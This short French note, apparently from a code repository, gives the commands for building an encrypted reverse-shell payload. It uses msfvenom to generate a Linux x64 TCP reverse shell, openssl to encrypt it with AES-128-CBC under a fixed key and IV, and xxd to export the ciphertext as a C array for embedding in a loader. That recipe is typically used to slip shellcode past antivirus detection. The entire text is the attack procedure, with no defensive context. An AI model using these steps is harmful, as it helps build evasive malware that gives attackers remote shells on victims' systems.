 Generer un reverse_shell_tcp :
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw -o shell.raw
Le chiffrer en AES : 
openssl enc -aes-128-cbc -nosalt -e -in shell.raw -out shell.enc -K '2b7e151628aed2a6abf7158809cf4f3c' -iv '000102030405060708090a0b0c0d0e0f' 
Recuperer le ciphertext : 
xxd -i shell.enc > shellcode.c > ciphertext to C tab

